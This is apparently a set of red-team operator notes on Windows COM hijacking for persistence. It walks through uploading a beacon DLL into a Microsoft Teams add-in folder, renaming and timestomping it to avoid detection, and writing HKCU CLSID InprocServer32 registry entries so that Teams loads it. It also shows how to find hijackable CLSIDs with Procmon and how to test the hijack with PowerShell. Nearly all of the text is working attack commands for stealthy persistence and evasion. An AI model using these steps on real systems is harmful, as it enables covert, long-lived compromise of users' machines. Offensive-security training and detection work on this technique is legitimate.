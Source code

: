 
##### COM Hijacking - Foothold Persistence

Upload beacon to a directory that it can blend into

```powershell
cd C:\Users\pchilds\AppData\Local\Microsoft\TeamsMeetingAdd-in\1.25.14205\x64

upload C:\Payloads\http_x64.dll
```

Change the name to match other files and `timestomp` the timestamp to not raise alerts

```powershell
mv http_x64.dll Microsoft.Teams.HttpClient.dll

timestomp Microsoft.Teams.HttpClient.dll Microsoft.Teams.Diagnostics.dll
```

Add the registry entries tested on the VM

```powershell
reg_set HKCU "Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" "" REG_EXPAND_SZ "%LocalAppData%\Microsoft\TeamsMeetingAdd-in\1.25.14205\x64\Microsoft.Teams.HttpClient.dll"

reg_set HKCU "Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" "ThreadingModel" REG_SZ "Both"
```
##### Locate COM to Hijack

Within replica VM open Procmon and filter with the following

1.  Process Name `is` ms-teams.exe (or target executable) then Include.
2.  Operation `is` RegOpenKey then Include.
3.  Path `ends with` InprocServer32 then Include.
4.  Result `is `NAME NOT FOUND then Include.

Open executable and look for a CLSID that's only called a few times

Test COM hijack by adding the following registry entries (have it match procmon)

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}"

New-Item -Path "HKCU:Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"

New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

Open the executable and wait for beacon
